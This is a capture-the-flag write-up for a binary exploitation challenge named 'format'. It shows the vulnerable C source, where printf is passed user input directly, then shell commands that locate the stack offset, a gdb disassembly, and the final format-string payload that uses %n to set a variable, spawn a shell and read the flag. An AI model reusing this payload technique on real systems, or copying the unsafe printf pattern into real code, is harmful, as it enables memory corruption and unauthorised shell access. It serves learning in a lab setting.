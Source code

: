 ### Solved by et0x

Format is a 70 point binary exploitation challenge. 

> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found here. 

The source of the binary is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}
```
So we need to somehow find a way to change the value of secret to 1337, using a format string attack because the printf() function isn't correctly implemented.  Well first thing's first, lets find out what the stack looks like.

*note: the environment variables mess with the stack in this problem, so do yourself a favor by prepending the command with 'env -i' to clear the environment before running the command.*
```bash
pico1139@shell:/home/format$ for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141
Offset: 105:AAAA41414141
```

This means we can see our input at offset 105 from the top of the stack.  However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then.  (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

```bash
for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
Offset: 103:AAAA41410074
Offset: 104:AAAA31254141
```

So we found our A's again, but they aren't aligned on the stack.  Lets add two more A's at the end to see if we can get it to line up.

```bash
for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
Offset: 103:AAAA41414141
```

Great! Our offset is 103.  Now we need to find out what address to use to change the data in "secret"

```
pico1139@shell:/home/format$ gdb -q format
Reading symbols from format...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x080484e2 <+0>:	push   %ebp
   0x080484e3 <+1>:	mov    %esp,%ebp
   0x080484e5 <+3>:	and    $0xfffffff0,%esp
   0x080484e8 <+6>:	sub    $0x20,%esp
   0x080484eb <+9>:	movl   $0x804a030,0x1c(%esp)
   0x080484f3 <+17>:	mov    0xc(%ebp),%eax
   0x080484f6 <+20>:	add    $0x4,%eax
   0x080484f9 <+23>:	mov    (%eax),%eax
   0x080484fb <+25>:	mov    %eax,(%esp)
   0x080484fe <+28>:	call   0x8048350 <printf@plt>
   0x08048503 <+33>:	mov    0x804a030,%eax
   0x08048508 <+38>:	cmp    $0x539,%eax
   0x0804850d <+43>:	jne    0x8048514 <main+50>
   0x0804850f <+45>:	call   0x80484ad <give_shell>
   0x08048514 <+50>:	mov    $0x0,%eax
   0x08048519 <+55>:	leave  
   0x0804851a <+56>:	return
```

It looks like the address **0x0804a030** is getting placed in *ptr.  That's the address we need to use in place of our A's.  In order to place the number 1337 into secret's memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.)


```bash
pico1139@shell:/home/format$ env -i ./format $(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103$nAA"')
$ id
uid=11066(pico1139) gid=1008(format) groups=1017(picogroup)
$ ls
Makefile  flag.txt  format  format.c
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
